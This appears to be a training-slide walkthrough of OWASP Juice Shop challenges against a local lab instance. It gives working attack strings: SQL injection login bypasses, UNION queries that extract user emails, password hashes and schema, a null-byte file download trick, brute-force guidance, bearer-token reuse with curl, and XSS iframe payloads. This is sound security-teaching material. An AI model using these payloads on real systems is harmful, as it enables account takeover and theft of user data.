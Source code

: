 # Juice-Shop

Proposed solution to challenges

---
## A01:View Basket

>Challenge: View another user's shopping basket<!-- .element: style="font-size:0.8em"-->

<code style="font-size: 0.5em;">

0. Create a new user
1. Use browser to observe the basket API, when entering your basket - see HEADERS
2. http://localhost:3000/rest/basket/6 - Can I use that to view another user?
3. BEARER token, check HEADER for the Authorization
4. Try another user name e.g.:
5. Grab the Bearer Token and do export BEARER_TOKEN="..then the token here"
6. curl -X GET -H "Authorization: Bearer \"$BEARER_TOKEN\"" "http://localhost:3000/rest/basket/3"
7. You can also use the "Resend" feature in Firefox to do nr 6.

</code>

---
## A01:Login as admin

>Challenge: Log in with the administrator's user account<!-- .element: style="font-size:0.8em"-->

<code style="font-size: 0.5em;">

0. Go to the login page in juice shop
1. Observe 2 input fields. Test with random characters?
2. Let's check if the website is adding our input to the SQL
3. Test with email: **'** e.g. pwd: 111
4. Check Network tab in your browser and "Response" for the 500 error. There is a json with the SQL used
5. "SELECT * FROM Users WHERE email = '**'**' AND password = '111' ..."
6. Get it to return as TRUE (sql) or find the admin's name
7. Now we know the SQL query related to logging in. We can send **'** OR TRUE -- as email input and any string as a password
8. "SELECT * FROM Users WHERE email = '' OR TRUE -- AND password = '111' ..."
9. Observe the admin user name in the response - admin@juice-sh.op
10. Also take note on the SQL that is used (from the error response)

</code>

---
## A01:Admin Section

>Challenge: Access the administration section of the juice shop<!-- .element: style="font-size:0.8em"-->

<code style="font-size: 0.5em;">

0. Do not log-in to the juice-shop
1. Find the administrator page
2. User the debugger TAB look in the source => main.js
3. Search for admin - and we will find 'administration'
4. Remember to login as `admin` before you try the URL

</code>

---
## A02:Weird Crypto

>Inform the shop - http://localhost:3000/#/contact - about an algorithm or library it should definitely not use the way it does.

From the hints in this challenge:

<code style="font-size: 0.5em;">

1. Try find what crypto algorithm the shop is using
2. Use the "Feedback form" to notify the shop about the algorithm
3. Hint - Google knows -  **weak crypto algorithms**

</code>

---
## A03:Login Jim

>Log in with Jim's user account

<code style="font-size: 0.5em;">

1. 
1. Find User Jim's e-mail and his password hash
2. Hint - see if there is vulnerability in searching products
3. in main.js we discover - /rest/products/search?q=
4. Maybe try a SQL Injection?
5. .... /search?q=qwert'))%20UNION%20SELECT%20id,email,password,'4','5','6','7','8','9'%20FROM%20Users--
6. Hint - https://crackstation.net

</code>

---
## A03:Login Bender

>Log in with Bender's user account

<code style="font-size: 0.5em;">

1. Search in main.js to see if there is url related to admin
2. We find - /rest/admin/application-configuration
3. We notice the application domain - juice-sh.op
4. Try login using the user and domain
5. We from previous challenge that the user field is vulnerable for SQL injection
6. Use that knowledge to login on benders account
7. bender@juice-sh.op

</code>

---
## A05:Deprecated Interface

>Deprecated Interface - Use a deprecated B2B interface that was not properly shut down.

<code style="font-size: 0.5em;">

1. Use the - "Complaint page" (See menu)
2. Click the - "Browse" - Notice the allowed file types.
3. Look into main.js - for e.g. ZIP, which was allowed type
4. Notice any file choices not shown behind Browse button? ( allowedMimeType )
5. Try load an empty XML file - notice the response (devtool) in Firefox

</code>

---
## A06:Vulnerable Library

>Inform the shop about a vulnerable library it is using. Mention the exact library name and version in your comment

<code style="font-size: 0.5em;">

1. Hint - "Poison null byte" - %00 e.g. %2500 in URL
2. Search main.js - see if you find something related to ftp
3. There seems to be a backup file forgotten - package.json.bak
4. Download the file above - using "Poison null byte"
5. Investigate the file for vulnerable packages (dependencies)
6. Use Snyk Advisor to investigate vulnerable libraries - https://snyk.io/advisor/
7. e.g. sanitize-html 1.4.2
8. Give feedback to Juice-Shop about this library (Comment box)

</code>

---
## A07:Password Strength

>Log in with the administrator's user credentials **without** previously changing them or applying SQL Injection.

<code style="font-size: 0.5em;">

1. Previous challenge (A01/A03) we noticed admin's e-mail : admin@juice-sh.op
2. Search in main.js for anything login e.g. "/login"
3. Notice in your browser tool - /rest/user/login
4. Now you need a password list and something to bruteforce the password.
5. e.g. Try many attempts  on -  /rest/user/login - with the payload {'email':'admin@juice-sh.op', 'password':'mytestpassword'}
6. Passwords files are all over the internet - e.g.  https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/best1050.txt

</code>

---
## A07:GDPR

>Log in with Chris' erased user account.

<code style="font-size: 0.5em;">

1. From previous challenges (A03 or A01 login) - try SQL inject search API to provoke an error
2. Inspect the network response - the error message. Notice the SQL database (SQLITE)
3. With information above, we can see what "db schema sqlite" - www.sqlite.org/index.html - FAQ nr7 https://www.sqlite.org/faq.html#q7
4. From the knowledge of SQLITE_SCHEMA we can produce : blabla'))UNION%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master--
5. Try this in the search API (A03): /rest/products/search?q=blabla'))UNION%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master--
6. Inspect the response - Notice the table "Users"
7. Notice the column "DeletedAt" in talbe "Users"
8. Get the deltedAt, email and username
9. /rest/products/search?q=blabla'))UNION%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20users--
10. Inspect chris.pike's info - he seem to be deleted
11. Login with Chris'es e-mail with knowledge from previous injection info - chris.pike@juice-sh.op'--;

</code>

---
## A10:DOM XSS

>Perform a **DOM XSS** attack with &lt;iframe src="javascript:alert('DOM xss')">.

<code style="font-size: 0.5em;">

1. Use the payload on a certain input field
2. Payload: &lt;iframe src="javascript:alert('DOM xss')">

</code>

---
## A10:Client-side XSS Protection (XSS)

>Perform a **persisted** XSS attack with &lt;iframe src="javascript:alert('got you xss')"> bypassing a client-side security mechanism.

<code style="font-size: 0.5em;">

1. Hint - /#/administration portal from previous challenge list all users
2. How to register a user with the payload instead of the users e-mail?
3. Register a user - and inspect the request/response
4. Use "Resend" feature in Firefox - to register a user with the payload
5. Visit the /#/administration portal

</code>
